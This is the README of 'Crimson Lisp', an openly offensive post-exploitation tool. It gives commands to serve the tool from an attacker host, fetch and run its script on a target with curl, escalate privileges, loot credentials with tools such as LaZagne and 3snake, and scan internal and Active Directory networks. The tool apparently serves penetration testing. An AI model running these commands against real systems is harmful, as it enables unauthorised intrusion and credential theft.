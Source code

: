 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
## ON THE HOST MACHINE
```bash
cd crimson_lisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE 
### 1. DOWNLOAD THE TOOLS
```bash
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
```
### 2. ESCALATE THE PRIVILEGES
```bash
./lisp.sh -e
```
### 3. LOOT THE SYSTEM
```bash
sudo ./lisp.sh -l
```
### 4. NETWORK DISCOVERY (as root)
#### 4.1. PING SWEEP
```bash
./nping INTERNAL_IP/24
```
#### 4.2. NMAP SCAN
```bash
./run-nmap.sh -Pn INTERNAL_IP -p- --append-output -oA all_ports_scan
```
#### 4.3 AD SPECIFIC SCAN
```bash
./run-nmap.sh -Pn 172.22.11.1/24 -p21,22,53,80,443,88,135,139,445,389,636,1433,3389,5985 --append-output -oA AD_ports
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>
